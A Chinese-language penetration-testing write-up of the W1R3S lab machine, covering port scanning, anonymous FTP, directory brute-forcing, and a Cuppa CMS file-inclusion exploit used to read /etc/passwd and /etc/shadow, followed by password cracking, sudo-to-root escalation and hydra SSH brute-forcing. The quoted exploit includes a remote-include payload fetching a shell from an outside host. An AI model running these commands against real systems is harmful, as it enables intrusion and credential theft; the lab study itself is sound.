要细心，沉心地做信息搜集、资产测绘
靶机 ip：192.168.17.145

<h1 id="Qj6sX">端口扫描</h1>


```php
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sS -sV -T5 -A -p- 192.168.17.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-30 03:10 EDT
Nmap scan report for 192.168.17.145
Host is up (0.00088s latency).
Not shown: 55528 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.17.136
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:7F:87:A6 (VMware)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 5.1 - 5.15 (96%), Linux 3.2 - 4.14 (94%), Linux 3.13 - 4.4 (94%), Linux 4.10 (94%), Linux 3.10 (93%), Linux 4.4 (93%), Linux 3.16 - 4.6 (92%), OpenWrt 19.07 (Linux 4.14) (92%), Linux 2.6.32 - 3.13 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.88 ms 192.168.17.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.27 seconds

```


<h3 id="cQiN1">端口分析</h3>
21：大概率有信息泄露；ftp 也有历史漏洞可能可以利用

22：可行性不大，ssh 版本较高

80：优先分析。一般是网站

3306：一般是 mysql


<h4 id="Tobc4">nmap 漏洞扫描脚本</h4>



nmap 没有扫出来，说明它不行.....你得自己找别的办法！  因为你是行的！


<h1 id="FS8dt">21 端口</h1>
<h3 id="pdG8h">匿名登录 FTP</h3>
nmap 的扫描结果中说明可以匿名登录 ftp



将 ftp 服务器中的文件 down 到本地




查看




<h4 id="bU1Gs">查看加密算法</h4>



md5 加密

那个没识别出来的，一眼就能看出来是 base64 嘛


<h4 id="oWr3o">base64 解密</h4>




<h1 id="s6CLV">3306 端口</h1>
mysql




<h1 id="xitSx"> 80 端口</h1>



apach 的首页，working


<h4 id="GRqcg">gobuster 目录扫描</h4>



administrator 可以访问


<h4 id="wVCRh">dirb 目录爆破</h4>
对网站进行目录爆破

dirb http://192.168.17.145


可以访问[http://192.168.17.145/administrator/installation/](http://192.168.17.145/administrator/installation/)




<h3 id="alQnL">对 wordprass 进行测试</h3>
先测试页面的有哪些功能





**真实情况下，需要在网上找这个页面的独特信息。是否会造成不可逆的服务器修改？？！**



<h2 id="W3BH8"> Cuppa CMS 渗透</h2>


<h4 id="IpUsC">searchsploit漏洞信息搜集</h4>
kali 中有自带的 searchsploit（**exploit-db.com 的本地版本**）



漏洞信息：[https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)

```plain
                                                                                                                                                                  
┌──(kali㉿kali)-[~/VulnHub/w1r3s]
└─$ cat 25971.txt            
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip  //找开源的代码可以做代码审计
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /
 (________(
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "Db@dmin";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        }
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################                                                                                                                 
```


<h4 id="cVh6d">路径构造  （EXP）</h4>




**可以看到需要 post 请求**




--data-urlencode 对 http  post 并使用 url 编码给到处理程序


exp：

```plain
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' http://192.168.17.145/administrator/alerts/alertConfigField.php
```


  


```plain
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/shadow' http://192.168.17.145/administrator/alerts/alertConfigField.php
```



 

<h4 id="P3SkO">linux 下 passwd 和 shadow 的详解</h4>
```plain
/etc/passwd:
普通用户权限能够查看

保存用户信息，每一行代表一个用户，每一行通过冒号：分为七个部分

用户名
密码，x表示密码保存在/etc/shadow
UID，0代表root
GID，表示所在组
描述信息，依次为Full Name、Room Number、Work Phone、Home Phone和Other
用户主目录
默认shell类型
eg.

test2:x:1001:1001:test2,11111,111111-11,222222-22,test:/home/test2:/bin/bash

用户名：test2
密码保存在/etc/shadow
UID为1001
GID为1001
描述信息： Full Name []: test2 Room Number []: 11111 Work Phone []: 111111-11 Home Phone []: 222222-22 Other []: test
用户主目录为/home/test2
默认shell为/bin/bash
/etc/shadow:
只有root用户权限能够查看

保存加密后的密码和用户的相关密码信息，每一行代表一个用户，每一行通过冒号：分为九个部分

用户名
加密后的密码
上次修改密码的时间(从1970.1.1开始的总天数)
两次修改密码间隔的最少天数，如果为0，则没有限制
两次修改密码间隔最多的天数,表示该用户的密码会在多少天后过期，如果为99999则没有限制
提前多少天警告用户密码将过期
在密码过期之后多少天禁用此用户
用户过期日期(从1970.1.1开始的总天数)，如果为0，则该用户永久可用
保留
注：

参数说明可通过man shadow获取

eg.

test2:$6$C/vGzhVe$aKK6QGdhzTmYyxp8.E68gCBkPhlWQ4W7/OpCFQYV.qsCtKaV00bToWh286yy73jedg6i0qSlZkZqQy.wmiUdj0:17470:0:99999:7:::

用户名：test2
加密后的密码：$6$C/vGzhVe$aKK6QGdhzTmYyxp8.E68gCBkPhlWQ4W7/OpCFQYV.qsCtKaV00bToWh286yy73jedg6i0qSlZkZqQy.wmiUdj0
上次修改密码的时间(从1970.1.1开始的总天数为17470)
两次修改密码间隔：没有限制
两次修改密码间隔最多的天数：没有限制
提前7天警告用户密码将过期
该用户永久可用
由示例可知，加密的密码具有固定格式：

$id$salt$encrypted

id表示加密算法，1代表MD5，5代表SHA-256，6代表SHA-512 salt表示密码学中的Salt,系统随机生成 encrypted表示密码的hash
```


<h4 id="mwdXg">密码破解</h4>
对 shadow 中加密的密码进行破解




<h4 id="FlVKI">成功登录</h4>




<h3 id="Zyx4x">提权</h3>
**sudo -l 可以查看用户的 root 权限**



w1r3s 可以运行全部的权限。相当于 root



<h4 id="A3MfL">sudo /bin/bash</h4>
为什么运行这个命令就可以进入 root 了呢？



:::info
/bin/bash 的作用

启动新 Shell：/bin/bash 是系统的 Bash Shell 解释器路径。执行此命令会启动一个新的 Bash Shell 会话。

以 root 身份运行：通过 sudo 执行时，这个新 Shell 会以 root 权限启动（因为 sudo 默认以 root 身份运行命令）。

:::


<h4 id="j1LPa">sudo su -</h4>




<h1 id="QayxZ">22 端口</h1>
正常来说 ssh 端口是没什么可测试的

<h4 id="AF2eQ">字典</h4>




<h4 id="q7m6L">hydra 成功爆破</h4>
**ssh 可以直接登录**




